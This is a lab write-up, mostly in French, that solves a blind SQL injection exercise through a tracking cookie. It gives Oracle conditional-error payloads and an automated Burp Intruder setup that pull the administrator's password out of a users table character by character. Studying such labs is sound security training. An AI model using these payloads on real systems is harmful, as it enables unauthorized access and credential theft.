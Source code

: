 ## DESCRIPTION
------------------------------------------------------------------------------------------------------

 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

------------------------------------------------------------------------------------------------------

En testant quelques combinaisons a la suite du TrackingId cookie, on peut s'appercevoir qu'une erreur est renvoyee dans tous les cas a la suite d'une `'`, et disparait avec `''`, signifiant que le serveur reagit aux syntax errors.

On peut verifier que le serveur interprete bien l'injection comme une requete SQL :

```'|| (SELECT '' FROM dual) ||'``` -> 200
```'|| (SELECT '' FROM sdffds) ||'``` -> 500

On passe maintenant au test de conditionnal errors

```
'|| (SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM DUAL) ||'
'|| (SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM DUAL) ||'
```

Le premier ne causera pas d'erreur, mais le second en causera du fait de la division par zero.

On peut dorenavant tenter de trouver la taille du mot de passe de l'administrateur en modifiant la condition :

```
'|| (SELECT CASE WHEN (LENGTH(password)>1000) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator') ||'
```

On obtient une reponse 200 OK, tandis que pour une length de 1, on obtient une erreur. En incrementant jusque 20, la taille du mot de passe semble donc etre de 20.

Tentons maintenant quelques tests sur le premier caractere du mot de passe :

```
'|| (SELECT CASE WHEN SUBSTR(password, 1, 1) > 'a' THEN NULL ELSE to_char(1/0) END FROM users WHERE username='administrator') ||'
```
Cette condition est vraie, donc une reponse 200 apparait. L'operateur `<` renvoie quant a lui une erreur.

Il est temps de faire passer la requete a l'`intruder` et d'utiliser un `cluster bomb`

```
'|| (SELECT CASE WHEN SUBSTR(password, §1§, 1) = '§a§' THEN NULL ELSE to_char(1/0) END FROM users WHERE username='administrator') ||'
```

On utilise la meme liste que pour le precedent lab pour le premier `Payload set` : une liste de 1 a 20, pour le second, une liste a-z et 0-9.

Une fois le mot de passe trouve, il suffit de se connecter en administration afin de terminer le lab.